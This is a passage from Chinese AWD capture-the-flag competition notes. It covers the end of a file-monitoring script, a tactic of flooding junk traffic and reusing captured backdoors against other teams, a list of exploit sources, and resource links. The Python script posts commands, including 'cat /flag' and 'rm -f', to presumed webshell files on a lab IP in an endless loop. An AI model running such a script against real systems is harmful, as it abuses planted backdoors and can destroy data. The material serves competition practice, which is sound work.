 ```python
                    except Exception as e:
                        print u'[-] 记录失败 : 被修改文件: ' + getUnicode(filekey)
                        pass
        time.sleep(2)
```



## 案例 3-其他-恶意操作-搅屎棍发包-回首掏共权限

作为各种技术大家都要用的情况下，一个好的攻击漏洞和思路不被捕获和发现，一个好的套路浪费
对手的时间，搅屎棍发包回首掏共权限利用思路可以尝试使用。

搅屎棍：发生大量垃圾数据包，混淆视觉，给对方人员增加检测的难度，浪费对方的时间。

回首掏：配合抓到的真实攻击数据包，利用数据包占用其他人的攻击行为。利用后门去连接其他团队尝试。

```python
import requests
import time

def scan_attack():
    file={ 'shell.php','x.php','index.php','web.php','1.php' }
    payload={'cat /flag','ls -al','rm -f','echo 1'}
    while(1):
        for i in range(8802, 8804):
            for ii in file:
                url= 'http://192.168.76.156:'+ str(i)+'/'+ii
                for iii in payload:
                    data={
                        'payload':iii
                    }
                    try:
                        requests.post(url,data = data)
                        print("正在搅尿:" + str(i) + ' | ' + ii + '| ' + iii)
                        time.sleep(0.5)
                    except Exception as e:
                        time.sleep(0.5)
                        pass


if __name__ == '__main__':
    scan_attack()


```



## 案例 4-准备-漏洞资源-漏洞资料库及脚本工具库

- 漏洞库：exploitdb，github 监控最新信息，平常自己收集整理
- 文档资料：零组类似文档离线版爬虫，各类资料，平常自己收集整理
- 脚本工具：忍者系统配合自己常用工具，github 监控 awd 脚本，收集整理




# 涉及资源：

- AWD平台搭建 https://blog.csdn.net/weixin_30367873/article/details/99608419
- AWD红蓝对抗资料工具 https://pan.baidu.com/s/1qR0Mb2ZdToQ7A1khqbiHuQ 提取码:xiao

# 参考

- https://www.cnblogs.com/zhengna/p/15796524.html